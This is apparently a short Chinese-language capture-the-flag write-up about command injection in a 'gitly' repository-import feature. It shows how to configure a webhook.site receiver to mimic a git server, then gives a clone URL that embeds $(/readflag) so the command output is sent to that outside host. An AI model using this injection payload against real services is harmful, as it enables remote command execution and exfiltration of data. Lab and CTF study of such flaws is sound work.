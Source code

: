 只有New repository，能發出請求
![](/images/2023/05/N9yzXwt.png)

結果嘗試到後面發現是command injection

接收端需先設定，讓gitly覺得是真的git

Status code 設定為
```
200
```

Content Type 設定為
```
application/x-git-upload-pack-advertisement
```

Response body 設定為
```
001e# service=git-upload-pack
```

接收端設定完後，在Clone URL 輸入


https://webhook.site/3923ff74-968d-46db-bb20-727f2068df0e/$(/readflag);

![](/images/2023/05/M1F2ghg.png)
